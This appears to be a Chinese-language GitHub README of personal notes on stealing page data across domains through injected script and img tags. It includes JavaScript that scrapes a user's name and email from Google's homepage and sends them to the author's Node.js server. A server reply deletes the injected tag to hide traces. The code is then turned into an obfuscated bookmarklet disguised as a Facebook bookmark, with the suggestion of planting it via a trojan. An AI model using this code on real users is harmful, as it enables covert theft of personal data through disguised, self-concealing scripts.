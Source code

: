 # JSONP-data-stealing
A try of XSS data stealing by JSONP

(個人紀錄用  可能有理解上的錯誤 對此有興趣的人也歡迎指教)

 前陣子看到了一篇利用JSONP進行XSS攻擊可能性的文章，突發奇想不知道是不是能用類似JSONP的方式，表面上是向跨網域的伺服器請求資料，其實是傳送資料給外部的伺服器。
 
(雖然覺得這種事情應該早就有人做過了XD)

以下是自己的紀錄

----
在html中大部分的東西都是不被允許跨網域存取的，只有&lt;img>&lt;script>,&lt;iframe>這幾個tag可以透過外連src跨網域的請求資料。而有了這點就代表也有機會在使用者端利用get的方式傳送資料給外部的伺服器。
舉個例子來說:

    <script src=’http://exampleHost/dataGet?data=myData’></script>

當這個tag被瀏覽器載入時會向exampleHost的dataGet頁面請求script ，而query的部分也會被以get的方式被伺服端取得，這也是JSONP的基礎精神，只要伺服器端支援JSONP就可以利用傳入的data和callback返還相對應的javascript並執行。

而如果myData的部分是透過javascript取得頁面上想要的資料再傳送時，不就等於將資料跨網域傳送給外部伺服器了嗎?

 有了想法，剛好最近又沉迷於node.js中，決定以node.js建立外部伺服器來試試看究竟可不可行。我在node.js的伺服器中寫了這樣的一個route(因為這邊的重點不是node.js的運作 所以不詳述node.js的部分):
 
      function dataGet(response,postdata,getdata,request) {      
     console.log(getdata);
      }  
      
這段程式碼做的事情很簡單，就只是將伺服器接到的getdata也就是query的部分印出。
接下來就是在寫一段要在瀏覽器端運行的javascript:
    
    var newScript= document.createElement('script');newScript.src='http://127.0.0.1:8888/dataGet?data=...'; 
    newScript.id='newScript';
    document.body.appendChild(newScript);

這段javascript做的事情是，在body中即時建立一個id為newScript新的script元件，並且將src設為自己的伺服器和路徑，這邊因為是自己在測試所以使用了localhost的127.0.0.1，至於為什麼要特地加上id後面會再詳述。

當兩端所需要的程式碼都準備好了，就是第一次測試的時候了。我一開始的目標是Facebook，結果發現在外部請求的script上Facebook不允許localhost的網域。

好樣的Facebook，記得前陣子看到通訊軟體的安全度Facebook Messenger是第一名，看來說不定Facebook在安全性的部分做了不少的用心。

<img src="http://i.imgur.com/ohO9kNH.jpg"></img>
*甚至提醒使用者不要在控制台貼上來路不明的Javascript 意外的用心*

儘管還是不能就這樣放棄，所以我又測試了img的tag，結果意外的成功了!!!

<img src="http://imgur.com/UjnqRgi.jpg"></img>
*伺服器端也成功地取得了資料*

由此可見，這個方法確實是可行的!

---

不過這跟我一開始的想法依然有點差距，所以我決定傳站其他的網頁試試，這次的目標是Google的搜尋首頁

<img src="http://imgur.com/INS0qvw.jpg"></img>

 噫！好了！我中了！ Google的搜尋首頁完全沒有阻擋外部javascript的載入，這樣就可以進一步來實行我原本的想法啦!!!
 
就像前面說的JSONP可以動態產生javascript讓網頁執行，我決定產生一段javascript讓他會刪除自己這個script的元件(也就是前面要設定id的原因)，以達到「不留痕跡」的地步。

    function dataGet(response,postdata,getdata,request) {
    console.log("Request handler 'dataGet' was called.");  
    console.log(getdata);  
    var responseScript="document.getElementById('newScript').remove();";  //刪除的script  
    response.write(responseScript);//傳出內容   response.end(); 
    }
  
  除此之外在瀏覽器端我也加了一點東西從搜尋的首頁撈點資料，這邊撈的是使用者設定的名字和他的信箱
  
      var name=document.getElementsByClassName("gb_ub")[0].innerHTML;
      var email=document.getElementsByClassName("gb_vb")[0].innerHTML;
      var newScript= document.createElement('script');newScript.src='http://127.0.0.1:8888/dataGet?name=..."&email="+email;  
      newScript.id='newScript';document.body.appendChild(newScript);
  
 如此一來就已經有個雛型了，測試一下也頗為成功。
 
 <img src="http://imgur.com/qmvhRCf.jpg"></img>
*在網頁元件中沒有看到新增的script元件 資料也有成功傳輸*

到了這裡，可能會發現要使用這個方法有一個大問題。那就是在執行的時候一定要在瀏覽器端輸入javascript。要怎樣在不被發現的情況下輸入確實是一個大問題，目前也只想到一個方法，不過覺得還不夠理想。

這個方法就是偽裝成其他網頁的瀏覽器書籤，現在的瀏覽器在沒有關閉功能的情況下大多都可以利用網址列執行javascript，而且也可以透過書籤執行，只要在網址的部分設定成以下的javascript即可:
    
    
    javascript:
    (
      function(){
       try{
          var name=document.getElementsByClassName("gb_ub")[0].innerHTML;
          var email=document.getElementsByClassName("gb_vb")[0].innerHTML;
          var newScript= document.createElement('script');
          newScript.src='http://127.0.0.1:8888/dataGet?name=..."&email="+email;newScript.id='newScript';
          document.body.appendChild(newScript);
          }
        catch(e){}
        window.location="http://www.facebook.com/";
       }
     )
     
     
 因為想要偽裝成Facebook的書籤列，在最後又加上了導向到Facebook的程式碼，如果覺得太明顯也可以透過javascript加密的方式將程式碼加密
 
     javascript:(eval(function(p,a,c,k,e,d){e=function(c){return(c<a?"":e(parseInt(c/a)))+
       ((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!''.replace(/^/,String)){while(c--)d[e(c)]=k[c]||e(c);
       k=[function(e)    {return d[e]}];e=function(){return'\\w+'};c=1;};while(c--)if(k[c])p=p.replace(new RegExp('\\b'+e(c)+'
       \\b','g'),k[c]);return p;}('b(){h{4 6=3.9("f")[0].7;4 5=3.9("g")[0].7;4 2=3.i(\'a\');2.d=\'8://c.0.0.1:j/q?6=\'+6+"&  5="+5;
       2.s=\'2\';3.p.r(2)}k(e) {} m.o="8://n.l.t"}',
       30,30,'||newScript|document|var|email|name|innerHTML|http|getElementsByClassName|script|function|127|src||gb 
       _ub|gb_vb|try|createElement|8888|catch|facebook|window|www|location|body|dataGet|appendChild|id|com'.split('|'),0,{})))


*透過此網站加密的結果: http://tool.chinaz.com/js.aspx*


如果是一個不知情的使用者他的Facebook書籤已經被替換掉(可能是透過木馬的方式置換)，而且正好從Google主頁要透過書籤前往Facebook時，就能從中竊取資料。
雖然這樣確實能達到效果，卻讓刪除元件的部分顯的多餘，方法本身也有些笨拙，不知道是不是還有更好的方法呢.....?

總結上這個方法應該還算是有趣，雖然在這只抓取了名字和e-mail，不過還能從使用者的網頁中挖出更多有用的資料這件事是無庸置疑的，只是為不為之的問題。

當然，這之間也還有很多限制跟問題是要解決跟改進的。
